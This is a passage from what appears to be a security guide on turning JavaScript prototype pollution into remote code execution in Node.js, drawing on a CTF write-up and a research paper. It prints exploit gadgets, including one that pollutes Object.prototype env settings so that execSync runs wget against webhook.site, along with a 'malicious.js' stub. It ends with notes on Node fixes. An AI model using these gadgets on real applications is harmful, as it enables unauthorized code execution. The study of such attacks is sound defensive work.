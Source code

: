 ```

clone(USERINPUT)

var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
```

**malicious.js**

```javascript
const { fork } = require("child_process")
console.log("Hellooo from malicious")
fork("/path/to/anything")
```
```


#### Relative require - 3

Similar to the previous one, this was found in [[https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs|**this writeup**]].

```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js",
  },
  name: "./usage",
}
Object.prototype["path"] = "/opt/yarn-v1.22.19"
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  NODE_DEBUG:
    "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
  NODE_OPTIONS: "--require=/proc/self/environ",
}

require("./usage.js")
```
```
## VM Gadgets

In the paper [[https://arxiv.org/pdf/2207.11171.pdf|https://arxiv.org/pdf/2207.11171.pdf]] is also indicated that the control of **`contextExtensions`** from some methods of the **`vm`** library could be used as a gadget.\
However, as the previous **`child_process`** methods, it has been **fixed** in the latest versions.

## Fixes & Unexpected protections

Please, note that prototype pollution works if the **attribute** of an object that is being accessed is **undefined**. If in the **code** that **attribute** is **set** a **value** you **won't be able to overwrite it**.

In Jun 2022 from [[https://github.com/nodejs/node/commit/20b0df1d1eba957ea30ba618528debbe02a97c6a|**this commit**]] the var `options` instead of a `{}` is a **`kEmptyObject`**. Which **prevents a prototype pollution** from affecting the **attributes** of **`options`** to obtain RCE.\
At least from v18.4.0 this protection has been **implemented,** and therefore the `spawn` and `spawnSync` **exploits** affecting the methods **no longer work** (if no `options` are used!).

```